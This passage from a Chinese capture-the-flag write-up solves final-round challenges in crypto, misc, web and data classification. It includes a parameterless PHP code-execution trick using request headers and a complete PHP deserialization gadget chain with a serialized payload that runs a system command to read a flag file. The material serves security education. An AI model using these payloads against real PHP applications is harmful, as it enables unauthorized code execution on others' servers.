| name       | varchar(255) | YES  |     | NULL    |       |
| idcard     | varchar(255) | YES  |     | NULL    |       |
| phone      | varchar(255) | YES  |     | NULL    |       |
| cryptoType | varchar(255) | YES  |     | NULL    |       |
+------------+--------------+------+-----+---------+-------+
7 rows in set (0.01 sec)
```

注意数据库是根据`cryptoType`字段来加密的，一共三种加密方式：base32、base64、base85。先导出所有数据解密后再进行查询。然后根据要求进行数据处理即可。

## 省赛决赛

**未完成，待更新。**


### 签到-FINAL-CHECKIN

```txt
密文: 570fc2416dad7569c13356820ba67ba628c6a5fcbc73f1c8689612d23c3a779befeacf678f93ff5eb4b58dc09dcb9a89
Key：??????????000000 <= ?是每个题目的答案大写
IV: 12345678

flag格式为 DASTCF{xxxxx}，提交时只需要提交括号中间的内容。
```

10道选择题，$4^{10} = 1048576$，爆破完全可以接受。一开始以为是AES加密，后面根据提示，是Triple DES：

```python
from Crypto.Cipher import DES3
import itertools

choose = ['A', 'B', 'C', 'D']

c = bytes.fromhex('570fc2416dad7569c13356820ba67ba628c6a5fcbc73f1c8689612d23c3a779befeacf678f93ff5eb4b58dc09dcb9a89')
iv = b'12345678'

def sol(key):
    ci = DES3.new(key, DES3.MODE_CBC, iv)
    m = ci.decrypt(c)
    if b'DAS' in m:
        print(m)

for i in itertools.product(choose, repeat=10):
    key = (''.join(i) + '000000').encode()
    sol(key)
```

大约十几秒就可以跑出来。

```txt
$ python sol.py
b'DASCTF{Cyber_Security_2024_N1SC_Fina1_JiaY0u}\x03\x03\x03'
```

### web-wucanrce

```php
<?php
echo "get只接受code欧,flag在上一级目录<br>";
$filename = __FILE__;
highlight_file($filename);
if(isset($_GET['code'])){
    if (!preg_match('/session_id\(|readfile\(/i', $_GET['code']))
     {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['code'])) {
                @eval($_GET['code']);
                print_r(eval("getallheaders();"));
                print_r(getallheaders());
            }
       
    }
    else{
        die("不让用session欧，readfile也不行");
    }
}
?>
```

不让使用`session_id`和`readfile`，并且使用正则表达式`/[a-z,_]+\((?R)?\)/`来禁止传入参数，也就是说可以传入`phpinfo();`这样的函数，但是不能传入`system('ls');`这样带参的。

正则表达式中的`(?R)`的意思是递归匹配，也就是说可以传入`a(b(c))`这样的函数。

题目名wucanrce的意思就是无参RCE，不能访问session和文件的情况下，RCE传参还有一个地方可以利用，就是`getallheaders()`函数，这个函数可以获取到HTTP请求头，我们可以把代码注入到请求头里。



传入HTTP头`a:??????`即可实现RCE。

### web-unserialize

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class AAA{
    public $aear;
    public $string;
    public function __construct($a){
        $this -> aear = $a;
    }
    function __destruct()
    {
        echo $this -> aear;
    }
    public function __toString()
    {
        $new = $this -> string;
        return $new();
    }

}

class BBB {
    private $pop;

    public function __construct($string) {
        $this -> pop = $string;
    }

    public function __get($value) {
        $var = $this -> $value;
        $var[$value]();
    }
}

class DDD{
    public $bag;
    public $magazine;

    public function __toString()
    {
        $length = @$this -> bag -> add();
        return $length;
    }
    public function __set($arg1,$arg2)
    {
        if($this -> magazine -> tower)
        {
            echo "really??";
        }
    }
}

class EEE{
    public $d=array();
    public $e;
    public $f;
    public function __get($arg1){
        $this->d[$this->e]=1;
        if ($this->d[]=1){
            echo 'nononononnnn!!!';
            }
        else{
            eval($this->f);
            }
    }
}

class FFF{
    protected $cookie;

    protected function delete() {
        return $this -> cookie;
    }

    public function __call($func, $args) {
        echo 'hahahhhh';
        call_user_func([$this, $func."haha"], $args);
    }
}

class GGG{
    public $green;
    public $book;
    public function __invoke(){
        if(md5(md5($this -> book)) == 666) {   
            return $this -> green -> pen;
        }
    }
}


if(isset($_POST['UP'])) {
    unserialize($_POST['UP']);
}
```

调用链：

```txt
AAA->__destruct()
AAA->__toString()
GGG->__invoke()
EEE->__get('pen')
eval($this->f)
```

以下是每个部分如何绕过：

#### MD5碰撞

```php
public function __invoke(){
    if(md5(md5($this -> book)) == 666) {   
        return $this -> green -> pen;
    }
}
```

利用PHP字符串与整数的弱类型比较，写python脚本进行MD5碰撞。

```python
import hashlib
import string
import itertools

def double_md5(s):
    first_hash = hashlib.md5(s.encode()).hexdigest()
    second_hash = hashlib.md5(first_hash.encode()).hexdigest()
    return second_hash

def random_str():
    n = 1
    while True:
        for s in itertools.product(string.digits + string.ascii_letters, repeat=n):
            yield ''.join(s)
        n += 1

for s in random_str():
    m = double_md5(s)
    if m.startswith('666') and not m[3].isdigit():
        print(s)
        print(m)
        break
```

运行得到`md5(md5('eS')) = '666adf7e8db0edc039faffa03fdcccd7'`。所以`$this -> book = 'eS';`。

#### __get()

```php
    public function __get($arg1){
        $this->d[$this->e]=1;
        if ($this->d[]=1){
            echo 'nononononnnn!!!';
            }
        else{
            eval($this->f);
            }
    }
```

为了让此处走else分支，需要控制`$this->d`，经过尝试，当`$this->d`设置为一个字符串的时候，会报error，不行。设置为一个整数的时候，只会报warning，并且分支也会走else。

所以让`$this->d = 1`即可。

#### 生成payload

```php

$e = new EEE();
$e -> d = 1;
$e -> f = "system('cat /flag.txt');";

$g = new GGG();
$g -> book = 'eS';
$g -> green = $e;
 
$a = new AAA(new AAA(1));
$a -> aear -> string = $g; 

echo serialize($a);
```

#### payload

```txt
UP=O:3:"AAA":2:{s:4:"aear";O:3:"AAA":2:{s:4:"aear";i:1;s:6:"string";O:3:"GGG":2:{s:5:"green";O:3:"EEE":3:{s:1:"d";i:1;s:1:"e";N;s:1:"f";s:24:"system('cat /flag.txt');";}s:4:"book";s:2:"eS";}}s:6:"string";N;}
```



### misc-FinalSign



snow隐写。

```bash
$ snow -C FinalSign.txt
xorkey:helloworld
```

循环异或。

```python
flag = bytes.fromhex("2c243f2f3b3114345d0a0909333f06100143023b2c55020912")
key = b'helloworld'
print(bytes([flag[i] ^ key[i % len(key)] for i in range(len(flag))]))
# b'DASCTF{F1nal_Sign1n_D0ne}'
```

### misc-非黑即白

拿到未知二进制文件，常规流程：

1. `file`:

   ```bash
   $ file 非黑即白
   非黑即白: data
   ```

2. `binwalk`: 什么都没有
3. 010 Editor打开，开头什么都没有，结尾有字符串`FIG`。估计是GIF文件倒过来。

   

写python脚本倒回去：

```python
with open("非黑即白", 'rb') as f:
    data = f.read()
    
with open("out.gif", 'wb') as f:
    f.write(data[::-1])
```

确实是一张gif图。

```bash
$ file out.gif
out.gif: GIF image data, version 89a, 100 x 100
```

打开图片发现黑白不停闪烁，使用python获取总帧数为1536，猜测通过黑白编码了01比特流。

```python
print(img.n_frames) # 1536
```

提取每一帧，保存为二进制文件：

```python
with open("out", 'wb') as f:
    img = Image.open("out.gif")

s = '0'

for i in range(1, img.n_frames):
    img.seek(i)
    if img.getpixel((0, 0))[0] < 128:
        s += '0'
    else:
        s += '1'

s = bytes([int(s[i:i+8], base=2) for i in range(0, img.n_frames, 8)])

with open("out.zip", "wb") as f:
    f.write(s)

```

比特流恢复出来是一个zip压缩包。

```bash
$ file out.zip
out.zip: Zip archive data, at least v2.0 to extract, compression method=store
```

但是这个压缩包有密码。尝试了伪加密，暴力字典，和明文攻击（长度不够8 bytes），都无果，如果有知道怎么破解的师傅欢迎联系。

### crypto-DlcgH_r

```python
from Crypto.Util.number import *
from gmpy2 import *

flag = b'DASCTF{******}'
def iterate_function(seed, coeff_a, coeff_b, prime_modulus):
    return (coeff_a * seed + coeff_b) % prime_modulus

def iterate_multiple_times(seed, num_iterations, coeff_a, coeff_b, prime_modulus):
    for _ in range(num_iterations):
        seed = iterate_function(seed, coeff_a, coeff_b, prime_modulus)
    return seed

p = getPrime(600)
a = getPrime(512)
b = getPrime(512)
s = getPrime(512)
k = getPrime(512)
t = getPrime(512)

A = iterate_multiple_times(s, k, a, b, p)
B = iterate_multiple_times(s, t, a, b, p)

print("p =", p)
print("a =", a)
print("b =", b)
print("s =", s)
print("A =", A)
print("B =", B)

secret1 = iterate_multiple_times(A, k, a, b, p)
secret2 = iterate_multiple_times(B, t, a, b, p)

assert secret1 == secret2
'''
p = 2565258348684709722726260231955260453241716968378483821594041597297293609376806025180965681289016169408781752953380586044352169083397987333072306444539318806255242559916564022662479
a = 7703427441632069990122897903141278700284019287330080801753208940444135129072547305259960648105321270085533531118395452229965873504176368162947864923497711
b = 8477265953761650860710068507342719089504862957398782381045770264963932696457722724393775545810962476516315838411812248360284564925846788951219272632661157
s = 9228773209718156231041982890745928246648483643042884535935071957475932603607283209094294685862893340598940862096657878372229519375655468524041406914666867
A = 434251860827782638796736001849473241231781620594954088572922898040098881748337513244415553659525671751903798527967205418513869125476445927127124010452649344318178999731385274553080
B = 434251860827782638796736001849473241231781620594954088572922898040098881748337513244415553659525671751903798527967205418513869125476445927127124010452649344318178999731385274553080
'''

p2 = next_prime(secret1)
q2 = getPrime(600)
n2 = p2*q2
e = 4
m = bytes_to_long(flag)
c = pow(m, e, n2)
print("n2 =", n2)
print("c =", c)

'''
n2 = 3241139665583501598296135149075754735041636843305130049654913708275571916563715101898946962033698805416493133339619007016676895968314902474922279948997540924678346952667095320094789476561995339618782687993966133770687551933070478999383821269223854568552819152909266096733330218505088222661907600152055916956562332379930822529724151378274932991887183193175206749
c = 1131281812215293796960536920068009435705926803182047772347743960804329656316689664084120353862091370978145286943689311985878028828902275260824388998300548644880722651153603738691769179255824425771260974588160589473958033612303767050773921373389315920529311000160530833707622310013322631917184737227893101365726934901652170763292132835433158093074003616578836411
'''
```

使用线性同余随机数生成器生成两个随机数进行密钥交换，但是注意到A=B，可以推出k=t，爆破k：

```python
k = 1
seed = A
while True:
    seed = iterate_function(seed, a, b, p)
    print(k)
    p = next_prime(seed)
    if n2 % p == 0:
        print(k)
        print(p)
        break
    k += 1
```

得k=12345，可对n进行分解，注意到本题$gcd(e, \varphi(n)) \neq 1$，但是$e$较小，和预赛那题一样，直接开根：

```python
k = 12345
p = 1472490340321845700492870656866629756386520746748019952980831685935628618084832981576756885932019702470337632472478610542460495595381421112792242654382213433012352298291319463142659
assert n2 % p == 0
q = n2 // p

x1_s = Mod(Integer(c), Integer(p)).nth_root(4, all=True)
x2_s = Mod(Integer(c), Integer(q)).nth_root(4, all=True)

for x1, x2 in itertools.product(x1_s, x2_s):
    flag = long_to_bytes(crt([Integer(x1), Integer(x2)], [p, q]))
    print(flag)
```



### 信创安全-datasecurity_classify1

根据文档描述对字段进行分类即可：

```py
with open("data.csv", "r") as f:
    data = f.readlines()
    
coe = [7, 9, 10, 5, 8, 4, 2, 1, 6, 3, 7, 9, 10, 5, 8, 4, 2]
tbl = ['1', '0', 'X', '9', '8', '7', '6', '5', '4', '3', '2']
ph = [734, 735, 736, 737, 738, 739, 747, 748, 750, 751, 752, 757, 758, 759, 772,
778, 782, 783, 784, 787, 788, 795, 798, 730, 731, 732, 740, 745, 746, 755,
756, 766, 767, 771, 775, 776, 785, 786, 796, 733, 749, 753, 773, 774, 777,
780, 781, 789, 790, 791, 793, 799]

print('类型,数据值')

for line in data:
    line = line.strip()
    if len(line) == 18 and all([c in '0123456789X' for c in line]):
        s = sum([coe[i] * int(line[i]) for i in range(17)])
        s %= 11
        if tbl[s] == line[17]:
            print('身份证号', line, sep=',')
            continue
    if len(line) == 11 and all([c in '0123456789' for c in line]):
        if int(line[:3]) in ph:
            print('手机号', line, sep=',')
            continue
    if all([ord(c) > 127 for c in line]):
        print('姓名', line, sep=',')
        continue
    print(line)
```

### 信创安全-datasecurity_classify2

给了一个流量包，用wireshark提取出文本之后，用正则表达式匹配并检验敏感数据：

```python
import os
import re

id = []
ph = []
ip = []

def get(data):
    global id, ph, ip
    id += [ ''.join(x) for x in re.findall(r'[^\d](\d{6})[\-\s]?(\d{8})[\-\s]?(\d{3})(\d|X)[^\d]', data)]
    ph += [ ''.join(x) for x in re.findall(r'[^\d](\d{3})[\-\s]?(\d{4})[\-\s]?(\d{4})[^\d]', data)]
    ip += re.findall(r'\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}', data)
     
for root, dirs, files in os.walk('./wireshark_extract'):
    for file in files:
        with open(os.path.join(root, file), 'r') as f:
            get(f.read())
            
coe = [7, 9, 10, 5, 8, 4, 2, 1, 6, 3, 7, 9, 10, 5, 8, 4, 2]
tbl = ['1', '0', 'X', '9', '8', '7', '6', '5', '4', '3', '2']     

def vali_id(idcard):
    s = sum([coe[i] * int(idcard[i]) for i in range(17)])
    s %= 11
    if tbl[s] != idcard[17]:
        # print(idcard)
        return False
    return True
        
def vali_phone(s):
    if int(s[:3]) not in [734, 735, 736, 737, 738, 739, 747, 748, 750, 751, 752, 757, 758, 759, 772, 778, 
        782, 783, 784, 787, 788, 795, 798, 730, 731, 732, 740, 745, 746, 755, 756, 766, 
        767, 771, 775, 776, 785, 786, 796, 733, 749, 753, 773, 774, 777, 780, 781, 789, 
        790, 791, 793, 799]:
        # print(s)
        return False
    return True

def vali_ip(i):
    splited = [int(x) for x in i.split('.')]
    if all([x < 256 for x in splited]):
        return True
    # print(i)
    return False

id = [i for i in id if vali_id(i)]
ph = [p for p in ph if vali_phone(p)]
ip = [i for i in ip if vali_ip(i)]

print('category,value')
for i in id:
    print('idcard', i, sep=',')
for p in ph:
    print('phone', p, sep=',')
for i in ip:
    print('ip', i, sep=',')
```
